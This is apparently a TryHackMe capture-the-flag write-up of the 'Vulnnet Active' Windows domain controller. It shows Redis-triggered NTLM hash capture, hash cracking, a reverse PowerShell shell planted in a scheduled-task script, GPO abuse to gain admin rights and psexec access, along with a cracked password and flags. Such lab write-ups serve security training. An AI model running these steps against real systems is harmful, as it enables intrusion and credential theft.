

# THM: Vulnnet Active

## Reconnaissance

The combination of ports listening on this box identifies it as a domain
controller. Nothing of interest was found except on port 6379 for the redis
service which can be accessed with the `redis-cli` utility.

This verision of redis can be used to access remote files. This can be abused by
using responder to capture the NTLM hash when trying to access a non existent
share file on our attack box. 

```
10.10.221.3:6379> eval "dofile('//10.13.2.223/pentest')" 0
(error) ERR Error running script (call to f_c496c0935f1f7842cdd38acc49c6048f41a7e89d): @user_script:1: cannot open //10.13.2.223/pentest: Permission denied 
(1.05s)

```

```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.221.3
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:...snip...
```

This hash can be cracked with john and the rockyou wordlist. We now have a valid
set of credentials for the enterprise-security user.

```
[kali@kali ~/thm/vulnnet-active/loot] john --wordlist=/usr/share/wordlists/rockyou.txt hash                          
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
...snip...  (enterprise-security)
```

Accessing the SMB shares as an authenticated user we can see an interesting
file, `\Enterprise-Share\PurgeIrrelevantData_1826.ps1`. An assumption can be
made that this script is part of a scheduled task.

```
[kali@kali ~/thm/vulnnet-active/loot] smbclient -U 'enterprise-security' -L \\10.10.199.186
Password for [WORKGROUP\enterprise-security]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Enterprise-Share Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

```
[kali@kali ~/thm/vulnnet-active/loot] smbclient -U 'enterprise-security' //10.10.199.186/Enterprise-Share
Password for [WORKGROUP\enterprise-security]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb 23 17:45:41 2021
  ..                                  D        0  Tue Feb 23 17:45:41 2021
  PurgeIrrelevantData_1826.ps1        A       69  Tue Feb 23 19:33:18 2021

		9558271 blocks of size 4096. 4988636 blocks available
```

## Initial Access

Since we have permissions to write to this share I overwrote this script with
the contents of Invoke-PowershellTcp from Nisang. `Invoke-PowerShellTCP -Reverse
-IPAddress 10.13.2.223 -Port 80` appended to the file. After a few minutes the
scheduled task executes and we catch a powershell session with our listener.

```
[kali@kali ~/thm/vulnnet-active] sudo nc -nlvp 80    
[sudo] password for kali:                        
listening on [any] 80 ...
connect to [10.13.2.223] from (UNKNOWN) [10.10.199.186] 49867
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\enterprise-security\Downloads>
```

## Privilege Escalation

Running Sharphound and importing the data to Bloodhound we find that our current
user has _GenericWrite_ over SECURITY-POL-VN Group Policy Object. We can abuse
this misconfiguration by creating a malicious scheduled task with 
`SharpGPOAbuse.exe` adding our current user to the local administrators group. 



```
PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

After running `gpupdate` we can now get an interactive shell as a local admin by
logging in as the enterprise-security user.

```
[kali@kali ~/thm/vulnnet-active/exploit] impacket-psexec -dc-ip 10.10.93.186 enterprise-security:'sand_0873959498'@10.10.93.186                               
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.93.186.....
[*] Found writable share ADMIN$
[*] Uploading file hEySwjFB.exe
[*] Opening SVCManager on 10.10.93.186.....
[*] Creating service uuBk on 10.10.93.186.....
[*] Starting service uuBk.....
[!] Press help for extra shell commands                                              Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\System.txt                  THM{d540c0645975900e5bb9167aa431fc9b}
THM{...snip...}
```
